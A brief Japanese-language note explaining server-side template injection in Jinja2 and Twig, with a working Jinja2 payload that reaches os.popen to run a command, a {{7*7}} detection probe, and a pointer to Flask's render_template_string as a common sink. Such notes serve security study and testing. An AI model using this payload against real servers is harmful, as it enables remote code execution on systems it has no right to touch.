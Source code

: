 # Server-Side Template Injection (SSTI)
テンプレートエンジン(Jinja2, Twigなど)にユーザ入力が直接渡るとテンプレート構文でコード実行が可能

## 実践例: Jinja2 SSTI
```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

## よくある形式

- `{{ 7*7 }}` -> 49が返ってくるかどうかでSSTI判定する
- Pythonオブジェクトチェーンで`os.popen`に到達
- Flaskアプリで`render_template_string()`が使われているケースが多い
